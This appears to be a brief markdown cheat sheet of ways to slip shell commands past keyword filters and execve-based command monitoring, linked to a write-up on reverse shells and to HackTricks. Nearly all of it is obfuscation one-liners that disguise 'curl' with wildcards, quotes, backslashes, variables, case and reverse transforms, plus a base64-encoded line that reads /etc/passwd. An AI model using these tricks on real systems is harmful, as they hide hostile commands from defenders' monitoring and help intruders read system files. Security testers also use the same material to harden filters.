 
# Solution
- [反弹shell-逃逸基于execve的命令监控(上)](https://cloud.tencent.com/developer/article/1560417) @七夜



## Command keywords bypass
- Question mark
```
/usr/bin/cur?
```

- Wildcard(*)

```
/usr/bin/c*rl 
```

- [chars] 

```
/usr/bin/cur[l]
```

- Quotes

```
'c'u'r'l
cu''r''''l      #'x2
```

- Backslashes

```
\c\u\r\l
```

- $@

```
cur$@l
```

- variables

```
c$(u)ur${u}l$u
```

- Transformations (case, reverse, base64)

```
$(tr "[A-Z]" "[a-z]"<<<"CuRl") # -> Upper case to lower case
$(a="CuRL";printf %s "${a,,}") # -> transformation (only bash)
$(rev<<<'lruc') 
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==) #base64
```



## Reference
- [bypass-bash-restrictions_HackTricks](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)




